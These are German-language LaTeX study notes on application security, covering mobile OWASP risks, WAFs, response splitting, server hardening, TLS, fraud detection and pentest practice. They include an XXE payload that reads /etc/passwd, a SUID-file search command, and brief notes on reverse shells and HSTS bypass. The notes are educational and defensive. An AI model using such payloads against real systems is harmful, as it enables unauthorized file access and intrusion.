	
\includegraphics[width=0.7\linewidth]{images/android_reverseeng}
	\caption{Android Reverse Engineering}
	\label{fig:androidreverseeng}
\end{figure}


\subsection{Windows Phone}
Das Windows Phone unterstützt ebenfalls die grundlegenden Security Features von iOS und Android. Diese Dinge sind weitgehend gut implementiert. Allerdings werden in der Default Einstellung Wi-Fi Credentials mit den Facebook Freunden, Outlook- und Skype-Kontakten geteilt.

\newpage

\subsection{OWASP Mobile Top 10}
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/owasp_mobile_10}
	\caption{OWASP Mobile Top 10}
	\label{fig:owaspmobile10}
\end{figure}

\subsection{Checklist}
\begin{enumerate}
	\item Data Protection API \& Keychain API
	\item Backup Exclusion
	\item Transport Security
	\item Certificate Pinning
	\item Side Channel Prevention (Screenshots, Logs, Keyboard)
	\item Input Validation, URL Whitelisting, Code Injection Checks
	\item Code Obfuscation
	\item Stack protection
	\item Anti Debug Controls
	\item Disable local file acces, Disable JS
	\item Jailbreak / Rooting detection
	\item Mandatory updates
\end{enumerate}

\subsubsection{M1. Impropert Platform Usage}
Wenn man ein Security Feature vom mobilen Betriebsystem falsch benutzt oder Guidlines verletzt. (z.B Schlüssel nicht in der Keychain speichert, sondern in einem File. Das Passwört wäre in diesem Fall bei einem Backup in Plaintext lesbar)

\subsubsection{M2. Insecure Data Storage}
Wenn man Daten falsch ablegt oder Daten unbewusst geleakt werden.
\begin{description}
	\item[Screenshots] iOS und Android machen Screenshots z.B für die Task Übersicht. Dieses Feature ist natürlich nachteilig für Apps mit sensitiven Daten. Als App Entwickler kann man jedoch ein schwarzes Overlay vor dem Screenshot erzwingen.
	\item[Keyboard] Autocomplete Functions (z.B Passwort in der Autocomplete Liste). Auch dieses Feature kann deaktiviert werden.
	\item[Zwischenablage] Standardmässig wird eine globale Zwischenablage benutzt, auf welche jede App zugreifen kann.
	\item[Logs] Crash und App logs können sensitive Daten enthalten. Daher nichts sensitives loggen.
	\item[Web Data] Die WebView Komponente agiert wie ein Browser und speichert deshalb viele Metadaten. (Cache, Cookies, Localstrage, Saved Passwords)
	\item[Inter-Process Communication] IPC geht z.B über ein URL Schema. (skype://123456778?call) Das Problem ist, dass jede App sich für ein URL Schema registrieren kann und somit Daten abgreifen. (Receiver kann nicht verifiziert werden)
\end{description}

\subsubsection{M3. Insecure Communication}
Klartext Kommunikation oder schlechte Verschlüsselung (z.B schwache Cipher Negotiation). Ebenfalls sollte Certificate Pinning verwendet werden, da die hinterlegten Root CA auf dem Smartphone verändert werden können. (Zertifikat direkt in der App speichern)

\subsubsection{M4. Insecure Authentication}
Kein Session Timeout, Schlechte Session ID's (predictable), Session Spoofing. 

\subsubsection{M5.Insufficient Cryptography}
Wenn schwachte Ciphers verwendet werden oder eigenen Kryptographie implementiert wird. Unter Android steht deshalb die Bouncy Castle library zur Verfügung. Unter iOS ist dies das CCCrypt.

\subsubsection{M6. Insecure Authorization}
Wenn die Authentifizierung nicht funktioniert und unerlaubten Benutzer Zugang gewährt wird.

\subsubsection{M7. Client Code Quality}
Schlechte Implementierung die Buffer Overflows, SQL Injection XSS, etc. erlaubt.

\subsubsection{M8. Code Tampering}
Ist der Code nicht speziell verschleiert, kann das Binary leicht Reverse Engineered werden oder sogar App Funktionalität überschrieben werden. Kritische Funktionalität sollte deshalb in C geschrieben werden, da diese schwerer manipuliert werden können.
Einige Probieren probieren aus diesem Grund auch zu erkennen, ob ein Gerät gerootet oder gejailbreakt ist, und brechen darauf die Ausführung ab.

\subsubsection{M9. Reverse Engineering}
Bei Android ist das Reverse Engineering relativ einfach, da Android auch mit Java Klassen arbeitet. Aus diesem Grund bietet die Android SDK den Obfuscator ProGuard. Ebenfalls können Debugger erkannt und unterbunden werden. (Dieser Schutz kann aber natürlich wieder überschrieben werden)

\subsubsection{M10. Extraneous Functionlity}
Versteckte Backdoors für die Entwickler, Passwörter in Kommentaren.

\section{Web Application Firewall}
Die WAF agiert als Vermittler zwischen Client und Applikation.
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/waf}
	\caption[Web Application Firewall]{}
	\caption{}
	\label{fig:waf}
\end{figure}

\subsection{Pre-Authentication}
Am Beispiel einer eBanking Applikation fungiert die WAF als zentraler Knoten, der die Request an die korrekten Komponenten der Banking Applikation weiterleitet. Solange der Benutzer nicht authentifiziert ist, leitet die WAF sämtliche Requests an den Login Server weiter. Sobald der Benutzer authentifiziert ist, wird bei der WAF ein Cookie hinterlegt, worauf die Requests an die eBanking Applikation weitergeleitet werden.

Somit übernimmt die WAF eigentlich die Vergabe von Zugriffsrechten auf die Applikation. Das kann sinnvoll sein, damit nicht authentisierte Clients gar nicht erst auf geschützte Seiten zugreifen können.

\subsection{Principal Delegation}
Das zu einem Benutzer gehörende Objekt nennt man oft Principal (beinhaltet z.B UID, Gruppen, Berechtigungen).
Die Kommunikation zwischen den Komponenten hinter der WAF läuft meist über proprietäre Header oder Cookies. 

\subsection{Forensic Readiness}
Ein Request wird mit einer ID eideutig identifiziert. Die ID wird in allen Tiers zwischengespeichert. Gibt es einen Verdacht auf Missbrauch, kann der Request genau verfolgt werden. 

\subsection{URL Encryption}
Die URL wird bei der WAF verschlüsselt. Somit können die Parameter nicht mehr verändert werden.

\subsection{Smart Form Protection}
Die WAF verschlüsselt die URL der Form Action. Wird diese verändert, verletzt dies die Integrität und wird an der WAF erkannt.

\subsection{Apache Mods}
\begin{itemize}
	\item mod\_proxy: Weiterleiten
	\item mod\_rewrite URI verändern
	\item mod\_header: Headers verändern
	\item mod\_substitue: Request Body verändern
	\item mod\_security: Filtern
\end{itemize}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/mod_security_blaclist}
	\caption{MOD SECURITY Blacklist Rule}
	\label{fig:modsecurityblaclist}
\end{figure}



\subsection{SSL ID Forwarding}
Damit das Backend weiss, mit welchem Schlüssel ein SSL Packet entschlüsselt werden muss, gibt es auf dem Reverse Proxy ein Mapping zwischen SSL ID und Symetrischem Key. 

\section{Mass Assignment}
MVC Frameworks erlauben oft ein autmatisches Binden von HTTP Request Parameter auf Objekt Entitäten. Kann der Angreifer die korrekten Felder raten, können die Daten in der Applikation verändert werden. So wurde z.B bei Github ein Benutzer mit Admin Berechtigungen erstellt.

\subsection{Massnahmen}
\begin{itemize}
	\item Explizites Binding von anottated Objekten (Exclude not allowed Fields, Include allowed Fields)
	\item Immutable Fields (z.B isAdmin)
	\item DTO erstellen für die Felder die auch im Frontent ersichtlich sind und diese dann Später auf die DB Entitäten mappen
\end{itemize}

\section{Response Splitting}
Beim der Response Splitting Attacke fügt der Angreifer ein Carriage Return (CS, ASCII 0x0D) gefolgt von einem Line Feed (LF, ASCII 0x0A) in den Header ein. Nach dieser Sequenz kann dann ein andere Response eingefügt werden. HTTP Response Splitting kann z.B für XSS Attacken, Cross-User Defacement und Cache Poisoning verwendet werden. 

Ein HTTP Request wird immer mit einem Carriage Return, Line Feed terminiert.

\subsection{Cookies einfügen}
Fügt man nur ein Carriage Return (CS, ASCII 0x0D) ein, können weitere Cookies angefügt werden. Z.B wird bei der Sprachauswahl normalerweise ein Cookie gesetzt. Ein möglicher Angriff ist es, nach dem Carriage Return mit weiteren Set-Cookie Befehlen z.B das Successful Login Cookie zu setzen. 

\subsection{Massnahmen}
\begin{itemize}
	\item Bevor ein String in den HTTP Header wie z.B Location oder Set-Cookie eingefügt wird, sollte dieser URL encoded werden.
\end{itemize}

\section{Server Security}
Bei der Server Security muss über mehrere Tiers die Sicherheit garantiert werden, rsp. es können Lücken in sehr vielen Komponenten existieren. Dies lässt sich kaum verhindern.
Statistiken sagen, dass es durchschnittlich 54 Tage dauert, bis eine Lücke gepatcht ist sowie 6 Tage bis ein Exploit dafür bereit steht.

\paragraph{Tiers: } TCP/IP Stack $\rightarrow$ App Server $\rightarrow$ Libraries $\rightarrow$ My App 

\paragraph{Script Kiddies} \hfill \\
Ungeübte Hacker verwenden oft Tools, die ihnen helfen, auf einfache Art und Weise Zugriff auf ein System zu erlangen. Dabei verwenden so unter anderem folgende Ressourcen:
\begin{itemize}
	\item Shodan
	\item Liste von Standard-Passwörtern \url{https://github.com/scadastrangelove/SCADAPASS}
\end{itemize}

\subsection{XML External Entity Attack}
Viele XML-Webapplikation sind anfällig für eine XXE File Inclusion Attacke. Damit können aus XML andere Dateien aus dem Dateisystem ausgelesen werden. Läuft die Applikation mit zu hohen Rechten, lassen sich so wichtige Systemdateien auslesen (z.B. \lstinline|passwd|).

\begin{lstlisting}[language=XML]
<?xml version="1.0" encoding="ISO-8859-1">
<!DOCTYPE request [
	<!ENTITY myEntity SYSTEM "/etc/passwd">
]>

<request>
	<description>&myEntity;</description>
</request>
\end{lstlisting}

\subsection{Reverse Shell}
Es gibt verschiedene Varianten eine Reverse Shell zu öffnen und damit einen Server fern zusteuern.
\begin{itemize}
	\item TCP Tunnel / ACK Tunnel
	\item Http(s) Tunnels
	\item ICMP Tunnels
	\item DNS Tunnels
\end{itemize}

\subsection{Write \& Execute Attack}
\begin{itemize}
	\item Execute commands
	\item Execute server commands (cmd.exe)
	\item Execute uploaded files on the server (phpshell)
\end{itemize}


\subsection{Massnahmen}
\begin{itemize}
	\item Automatische Updates (Sysadmin)
	\item Sicher Programmieren (Entwickler muss OWASP TOP10 kennne)
	\item Firewall (Netzwerk Admin)
	\item Sanboxing: Trennung von Applicationen mit Docker oder Jails. Somit kann ein Hacker nicht aus dem Container ausbrechen, solange keine Kernel Vulnerability existiert.
\end{itemize}

\subsection{Prozess Rechte}
Ein Apache Webserver sollte so konfiguriert werden, dass die Apache Files dem Root gehören und alle anderen Aufgaben an Worker ohne Rechte delegiert werden. Die Worker Threads sollen nur Zugriff auf die HTML Files haben. Um einen Angriff zu simulieren kann man mit dem Deamon User testen, auf welche Dateien man Zugriff hat.
\begin{lstlisting}
// Alles gehoert Root
chown -R root:root *

/bin : root
/htdocs : root
/logs -> chmod 600 * // root read write
/conf -> find . -name "*conf" -exec chmod 600 {} \ ;
 -> ssl.priv 
 -> ssl.pub
\end{lstlisting}

\subsubsection{Linux Defaults}
Neue Linux Prozesse haben immer die Rechte des aufrufenden User. Mit dem SUID Flag hat der neue Prozess das Recht des Binary.

Bash-Scripte können nicht als SUID-Programme verwendet werden; dies ist ein Sicherheitsfeature von Bash.

\begin{lstlisting}
chmod +s executable_file

ls -lah executable_file

// find all suid files on linux
sudo find / \( -perm -u+s -o -perm -g+s \) -type f
\end{lstlisting}

\subsection{Hardening}

\subsubsection{Recommedations}
\begin{itemize}
	\item Update OS, Service, Libraries
	\item Secure Programming
	\item Least Privileges for Services (Isolation)
	\item Least Privileges for Files
	\item Stop Internet Connectivity
	\item Authentication \& Monitoring (Integrity)
\end{itemize}

\paragraph{When Installing the System}
\begin{itemize}
	\item Minimal system
	\item Do not use defaults (e.g. directories: \lstinline|c:\inetpub\|)
	\item Separate disk/partition for log files
	\item latest patches (automatic updates)
	\item default secure (umask, path)
\end{itemize}

\paragraph{Network Security}
\begin{itemize}
	\item Start required services only
	\item Apply least file permissions for running services (file owner, group owner, others)
	\item Apply least process privileges (wwrun, wwadm, chroot)
	\item Remove samples and unused components
	\item Remove banners (They show the server version)
	\item Watch your error handling
	\item Disable direct internet (anti covert channel)
\end{itemize}

\paragraph{Authentication}
\begin{itemize}
	\item Strong Authentication if possible
	\item If not possible; time-based lockout
	\item Monitoring password guessing attach
	\item Login as unprivileged user - then gain root privs
\end{itemize}

\paragraph{Monitoring and Auditing}
\begin{itemize}
	\item Time synchronization
	\item Integrity checking
	\item Event handling (info, debug, error, panic, log)
	\item Forensic readiness
	\item Remote logging
\end{itemize}

\section{SSL/TLS Security}

\subsection{SSL Cipher}
Man sollte alle Ciphers < TLSv1 deaktivieren
\begin{lstlisting}[language=bash]
openssl ciphers -v [ALL | LOW | MEDIUM | HIGH | TLSv1 ]

// exclude null ciphers
openssl ciphers 'ALL:!eNULL' -v

// apache
SSLCipherSuite HIGH:!aNULL:!MD5
SSLHonorCipherOrder on # no downgrade
\end{lstlisting}

Gute Cypher-Empfehlungen gibt jeweils auch Mozilla ab.

\subsection{Perfect Forward Security}
Perfect Forward Security hilft gegen kompromittierte Private Keys. Wird der Private Key gestolen, kann alter Verkehr nicht entschlüsselt werden, da für jeden Austausch ein eigenes DH-Secret ausgehandelt wird.

\paragraph{Key Exchange}
\begin{itemize}
	\item RSA: Kein PDF!
	\item DH: Kein PFS! (Uses static data from cert for key exchange)
	\item DHE, EDH, ECDHE: Perfect Forward Security
\end{itemize}

\subsection{HSTS: HTTP Strict Transport Security}
HSTS forciert HTTPS für einen bestimmten Zeitintervall. HSTS hilft gegen HTTP Downgrade Attacken. Der HSTS Header kann im Apache über das mod\_headers gesetzt werden. HSTS basiert auf der Zeit (NTP). Es ist unter Umständen möglich, die Zeit auf dem Client so zu verändern (via NTP, falls der Hacker darauf Zugriff hat), dass das HSTS Interval abläuft und der Zugriff wieder über HTTP durchgeführt wird.
\begin{lstlisting}
Header add Strict-Transport-Security "max-age=15552000"
\end{lstlisting}

Bei langen HSTS-Zeiten kann die Seite auch in eine Preload-Liste von z.B. Chrome aufgenommen werden.

\paragraph{Bypassing}
\begin{itemize}
	\item Falls der Hacker Zugriff auf den lokalen NTP Server hat, kann er den lokalen Benutzer eine andere Zeit unterjubeln
	\item BetterCap: Agiert als MitM und verändert gegenüber dem Benutzer die Domain. ($wwww$ anstatt $www$). Durch die unterschiedliche Domain, wird HSTS nicht angewendet.
\end{itemize}

\subsection{HPKP: HTTP Public Key Pinning}

HPKP Ist das HTTP Public Key Pinning. mit HPKP wird dem Client der Hash der Zertifikates oder der CA mitgeteilt, welcher für eine gewisse zukünftige Zeit gilt.

Bei langen HPKP-Zeiten kann die Seite auch in eine Preload-Liste von z.B. Chrome aufgenommen werden.

\paragraph{Pin Generation}
Cert $\rightarrow$ Pubkey $\rightarrow$ *.der Format (binär) $\rightarrow$ Sha256 Hash $\rightarrow$ Pin (base64)

\subsection{Certificate Revocation}
\subsubsection{CRL: Certificate Revocation List}

In der CRL publizieren Certification Authorities (CAs) die widerrufenen Zertifikate (entweder, weil für die gleiche Domain ein neues ausgestellt wurde, oder weil das Zertifikat als gestohlen gemeldet wurde)

\subsubsection{OCSP: Online Certificate Status Protocol}

OCSP ist ein Protokoll, mit dem ein Client bei der CA nachfragen kann, ob das Zertifikat immer noch gültig ist (ähnlich CRL, nur dass bei OCSP gezielt nach einer Domain / Zertifikat gefragt werden kann.)

OCSP-Dienste von CAs sind eher unzuverlässig, deshalb ignorieren die meisten Browser, wenn der OCSP-Service nicht verfügbar ist. Deshalb hilft OCSP nur beschränkt gegen MITM \footnote{\url{https://www.imperialviolet.org/2014/04/19/revchecking.html}} \footnote{\url{https://www.imperialviolet.org/2014/04/29/revocationagain.html}}

\subsection{Mutual Authentication}

Unter Mutual Authentication versteht man die gegenseitige Authentisierung von Client und Server mit TLS-Zertifikaten (d.h., der Client hat auch ein TLS-Zertifikat, welches der Server überprüft.) Dies ist die einzige sichere Möglichkeit, sich gegen MitM zu schützen. (Ausnahme: Beim Client gibt es einen Trojaner)

\subsection{Tools / Testing}
\begin{itemize}
	\item SSL Strip
	\item \url{https://observatory.mozilla.org/} (vereint die meisten unten stehenden Tools)
	\item \url{https://www.ssllabs.com/ssltest/}
	\item \url{https://github.com/iSECPartners/sslyze}
	\item \url{https://www.bettercap.org/blog/sslstripping-and-hsts-bypass/}
	\item \url{https://mozilla.github.io/server-side-tls/ssl-config-generator/}
\end{itemize}

\section{Fraud Detection}

\subsection{Schadenserkennung}
Der grösste Teil von Schaden wird über menschlichen Input erkannt.

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/fraud_detection}
	\caption{Fraud Detection}
	\label{fig:frauddetection}
\end{figure}

\subsection{Fraud Detection Systems}
Frau Detection Systeme arbeiten mit Daten aus technischen- und Business-Logs. Wird ein auffälliges Verhalten festgestellt, wird die Transaktion geblockt und es wird beim Kunden nachgefragt.

Mit solchen Systemen kann das Risiko für Betrug stark minimiert werden.

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/fraud_detection_2}
	\caption{Fraud Detection System}
	\label{fig:frauddetection2}
\end{figure}


\subsection{Phishing Attacken}
Man unterscheidet zwischen Online und Offline Phishing Attacken. Bei Offline Attacken werden die Credentials einfach wegkopiert und dem User einen Fehler angezeigt. Bei Online Attacken, werden die Credentials wegkopiert und der Request an die korrekte Applikation weitergeleitet. Somit bemerkt der User nicht, dass etwas nicht in Ordnung ist.
\begin{enumerate}
	\item Hacker sendet Phishing Mail
	\item User klickt auf den Link, gelangt auf Fake-Loginseite und gibt Username und Passwort ein
	\item Hacker verwendet Credentials
\end{enumerate}


\subsection{Money Mule}
Bei der Money Mule Attacke wird nach einem erfolgreichen Angriff das Geld an eine unabhängige Person (z.B Rentner) überwiesen und diese dann gebeten, dass Geld auf ein Wester Union Konto zu überweisen. Somit bleibt der Angreifer anonym.

(Als Motivation für den Mittelsmann kann dieser eine Provision/Prozentsatz behalten.)

\subsection{Client Correlator}
Bei der Client Correlation prüft z.B. eine Bank, ob das Kundensystem (Browser, OS etc.) immer noch das gleiche ist. Damit soll erkannt werden, wenn ein Angreifer mit einer anderer Umgebung auf z.B. das E-Banking zugreift.

Zu diesem Zweck wird dem Client eine CCID (Client Correlation ID) zugewiesen, welche aus bestimmten metriken berechnet wird.

\url{https://panopticlick.eff.org/}

\subsection{SuperCookie / EverCookie}
EverCookie versucht auf möglichst viele verschiede Varianten ein Cookie abzulegen, damit dieses auch bei einem Browserwechsel etc. bestehen bleibt. Mit Evercookie wurden von der NSA Tor User getrackt.

\subsection{Advanced Attacks}
Sobald es dem Hacker gelingt einen Trojaner beim Benutzer zu installieren, sind Frauds nicht mehr so einfach zu detektieren. Um solche Attacken trotzdem zu verhindern wird immer mehr auf Machine Learning gesetzt.

So wird z.B zusätzlich der Typing Speed und Clickstreams geprüft. Bei der Clickstream Analyse wird meist auf Wahrscheinlichkeiten von Abfragestrukturen (z.B. Startseite $\rightarrow$ Kontostand $\rightarrow$ Überweisung $\rightarrow$ Kontostand $\rightarrow$ Überweisung $\rightarrow$ Logout) mit einer Markow Chain gebaut.

\begin{figure}[h]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/data_mining}
	\caption{Data Mining}
	\label{fig:datamining}
\end{figure}

\section{APT: Advanced Persistent Thread}

Advanced Persistend Threads sind dedizierte Angriffe (oft von professionellen und staatlichen Institutionen). Gegen solche angriffe ist die Abwehr eher schwierig, da

\begin{itemize}
	\item noch keine Security-Patches für die genutzten Lücken zur Verfügung stehen
	\item der Angreifer oft Insider-Wissen über die Firmenstruktur verfügt
	\item der Angreifer customized (Social Engineering) Angriffe fährt.
\end{itemize}

\subsection{Sandbox-Ausführung}

Eine mögliche Erkennung von solchen Angriffen ist das ausführen in einer Sandbox von z.B. Mailanhängen möglich. Dann wird geschaut, wie und ob eine Software sich darin verhaltet.

\subsection{Tools}

\begin{itemize}
	\item \url{https://www.cuckoosandbox.org/} (automated Sandbox Analysis)
	\item Splunk
	\item Elasticsearch
\end{itemize}


\section{Security Testing: Kundenakquise und Beratung}
Es stellt sich stets die Frage, was der Kunde überhaupt möchte und wie wir seine Bedürfnisse zufriedenstellend befriedigen können. Also gilt es mit dem Kunden zu besprechen, worin sein Grundbedürfnis liegt. 

Wie bei einer Revision der Kassenbücher, werden die gefundenen Probleme bei einem Penetration Test nicht repariert sondern nur in einem Dokument aufgezeigt. Die Problembehebung ist üblicherweise nicht die Aufgabe des Pentesters.

\subsection{Berichte}
Gründe für Security Tests sind Gesetze, eigenes Bestreben oder speziellere Intentionen wie z.B das erhöhen des eigenen Abteilungs-Budget. Aus dem Security Test resultiert immer ein Report, bestehend aus Managment Summary, Technical Summary und Schwachstellenreport. Beim Testing ist die Nachvollziehbarkeit des Tests enorm wichtig! Es sollen auch die guten Tests dokumentiert werden. (safe my ass strategy, damit der Dienstleister später nicht Fahrlässigkeit unterstellen kann)

\subsection{Testtypen}
\begin{itemize}
	\item Manuell oder voll automatisiert
	\item Einmalig oder regelmässig
	\item Blackbox oder Whitebox
	\item Mit oder ohne Login
	\item Hands-On oder Review
	\item mit oder ohne Social Engineering 
\end{itemize}

\subsection{Social Engineering}
Beim Social Engineering geht es immer um das erfinden einer glaubwürdigen Geschichte. Als Sicherheitsverantwortlicher sollte man auf die Gefahr von Social Engineering hinweisen und zwei Wochen später eine Attacke durchführen.

Leider lassen sich Angriffe über Social Engineering nicht ganz verhindern. Deshalb werden Social Engineering-Angriffe auch nur mit Erfolgsraten angegeben.

\subsection{Probleme}
\begin{itemize}
	\item Angriffe auf Provider die auch Kunden mitreisst die keine Security Tests beantragt haben.
	\item Virus Angriff mit USB Stick der fälschlicherweise von einer anderen Person eingesteckt wird.
\end{itemize}



\section{Identity \& Authentication Management (IAM)}
Beim IAM geht es um die Verwaltung von Benutzer und deren Authentisierung und Autorisierung. 

IAM = Identity(Username, User Attribute) + Authentisierung + Authorisierung

In einer klassischen Intranet-Umgebung wird oft ein Active Directory / LDAP für die Verwaltung der Benutzer und Kerberos für die Authentifizierung verwendet. Die beiden Technologien erlauben auch Single Sign On. Um das selbe im Internet zu erreichen, gibt es folgende Möglichkeiten:


